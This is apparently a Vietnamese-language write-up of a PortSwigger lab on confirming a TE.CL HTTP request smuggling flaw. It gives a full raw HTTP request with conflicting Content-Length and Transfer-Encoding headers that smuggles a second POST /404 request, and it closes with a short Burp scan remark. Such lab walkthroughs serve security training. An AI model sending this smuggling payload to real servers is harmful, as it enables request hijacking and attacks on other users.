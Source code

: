 ![image](https://hackmd.io/_uploads/rkY-ero6T.png)

![image](https://hackmd.io/_uploads/H1MzeSi6p.png)

## 5. Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

link: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

### Đề bài

![image](https://hackmd.io/_uploads/ryJmfSiTa.png)

### Phân tích

- biết máy chủ backend không hỗ trợ chunked encoding
- để solve lab mình cần gửi request đến máy chủ backend trigger được lỗi 404

### Khai thác

Để xác định đây là dạng TE.CL, ta gửi request sau:

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![image](https://hackmd.io/_uploads/HkrrVBip6.png)

![image](https://hackmd.io/_uploads/B1ZB4Sjpp.png)

và bài lab đã được solve

![image](https://hackmd.io/_uploads/SJP9ESjp6.png)

### Burp scan

- mình quét lại bài lab với burp scan

và phát hiện lỗ hổng với 2 request
và giống như chúng ta đã khai thác ở request đầu gửi request với 2 http header `Transfer-Encoding: ` 1 cái hợp lệ 1 cái thì không hợp lệ và response trả kết quả 200 OK
